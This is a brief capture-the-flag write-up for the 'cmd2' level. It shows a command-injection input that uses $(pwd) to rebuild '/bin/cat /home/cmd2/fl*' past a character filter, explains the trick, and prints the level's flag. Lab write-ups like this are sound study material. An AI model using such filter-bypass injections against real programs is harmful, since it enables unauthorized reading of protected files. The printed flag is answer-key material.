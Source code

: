 # cmd2 Solution

this is more complicated level.
here we use this input: 
```
./cmd2 "cd ..; cd ..; pwd; \$(pwd)bin\$(pwd)cat \$(pwd)home\$(pwd)cmd2\$(pwd)fl*"
```

first, we cd into `/`.
then, we execute this command: `/bin/cat /home/cmd2/fl*`, by taking each time our current directory with `pwd`, which gives us `/`.

by this way we can build our command.

![image](./images/cmd2.png)

**Flag:** ***`FuN_w1th_5h3ll_v4riabl3s_haha`***
